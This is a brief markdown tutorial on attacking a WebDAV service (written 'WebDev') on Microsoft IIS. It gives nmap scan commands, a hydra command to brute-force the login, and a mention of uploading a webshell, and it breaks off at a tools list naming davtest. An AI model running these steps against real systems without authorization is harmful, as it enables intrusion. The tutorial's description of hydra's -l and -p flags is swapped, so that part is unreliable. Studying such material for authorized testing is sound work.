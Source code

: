 ## Exploiting WebDev running on Microsoft IIS

After getting target IP address, first run nmap to scan open ports and services running
```
nmap -sV -sC <ip>
```
-sV: Probe open ports to determine service/version info \
-sC: equivalent to --script=default

---

Finding more information on port 80
- we can see /webdev/ if webdev is running on that IIS microsoft server 
- Authorization is required if not asking authorization then then it is very easy to exploit it by uploading webshell

```
nmap -sV -p 80 --script=http-enum <ip>
```

---

Now, Go to the browser and then http://ip/webdev
- If authorization is required then we need to bruteforce to find out username and password.
- To bruteforce we can use ```hydra``` tool.
```
hydra -L username/wordlists/path -P password/wordlists/path <ip> http-get /webdev/
```
-L : provide username wordlists \
-P : provide password wordlists \
-p : provide username \
-l : provide password

---

### Tools
---
1. davtest

